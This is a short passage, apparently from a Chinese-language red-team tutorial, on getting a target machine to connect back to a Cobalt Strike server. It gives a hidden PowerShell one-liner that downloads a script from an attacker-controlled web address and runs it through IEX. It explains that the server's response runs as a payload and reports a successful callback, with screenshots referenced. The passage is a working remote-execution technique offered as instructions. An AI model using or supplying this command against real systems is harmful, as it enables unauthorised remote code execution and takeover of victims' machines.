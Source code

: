 ```
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://IPS:1234/a'))"
```

本质上也是通过powershell远程加载上线 , 但是稍微有点不同 , 这中攻击方式是攻击者在cs服务器上开启一个web站点 , 然后靶机中运行powershell命令去该站点 , 发起请求 , 然后响应的内容作为powershell要执行的命令 , 执行,属于payload远程加载执行的一种方式

![截图](fef656014563b96285ce445ebb651a05.png)

在靶机命令行中输入生成的命令。

![截图](d91d895932b0835191bd84e159918de3.png)

上线成功

![截图](49416979ac2e6237b697b514ca586838.png)
